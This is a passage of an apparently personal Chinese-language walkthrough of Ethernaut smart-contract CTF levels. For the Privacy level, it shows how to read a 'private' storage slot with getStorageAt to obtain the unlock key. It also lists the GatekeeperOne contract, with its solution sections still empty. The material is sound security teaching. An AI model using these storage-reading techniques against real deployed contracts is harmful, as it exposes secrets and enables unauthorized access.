      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

### 分析

看要求是得到 `key`,让 `locked` 为 `false`;

- 链上明文存储
- EVM数据存储方式

```solidity
contract Privacy {
    bool public locked = true;              // solt 0
    uint256 public ID = block.timestamp;    // solt 1
    uint8 private flattening = 10;          // solt 2
    uint8 private denomination = 255;       // solt 2
    uint16 private awkwardness = uint16(block.timestamp);   // solt 2
    bytes32[3] private data;    // solt [3,4,5]

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2])); //data[2] -> solt[5]
        locked = false;
    }
```

先 得到 `data[2] -> solt[5]`,`solt` 是 5。再将 `bytes32` 转 `bytes16`。

### 攻击

执行
`await web3.eth.getStorageAt(contract.address,5)`, 由于 在 Solidity 中将 bytes32 转换为 bytes16 是通过截取前 16 个字节（前一半）实现的。这种转换是直接且无损的，但会丢弃后 16 个字节的数据。 所以我们取 slot 中数据的 前一半，一个 slot
32 字节, 用 `0x` + 64 位 16进制 的数表示，我们取 0x + 32 个 字符 可以得到 key。

### 笔记

在以太坊链上, 没有什么是私有的。`private` 关键词只是 solidity 中人为规定的一个结构. Web3 的
`getStorageAt(...)` 可以读取 `storage`
中的任何信息, 虽然有些数据读取的时候会比较麻烦. 因为 一些优化的技术和原则, 这些技术和原则是为了尽可能压缩
`storage` 使用的空间.

这不会比这个关卡中暴露的复杂太多. 更多的信息, 可以参见 "Darius" 写的这篇详细的文章:
[How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)

### 总结

## 12. Gatekeeper One


### 要求

越过守门人并且注册为一个参赛者来完成这一关.

**这可能有帮助:**

- 想一想你在 Telephone 和 Token 关卡学到的知识.
- 你可以在 solidity 文档中更深入的了解 gasleft() 函数 (参见
  [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html)
  和
  [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

### 攻击

```solidity

```

### 笔记

### 总结

##

### 要求

### 代码

```solidity

```

### 分析

### 攻击

```solidity

```

### 笔记

### 总结
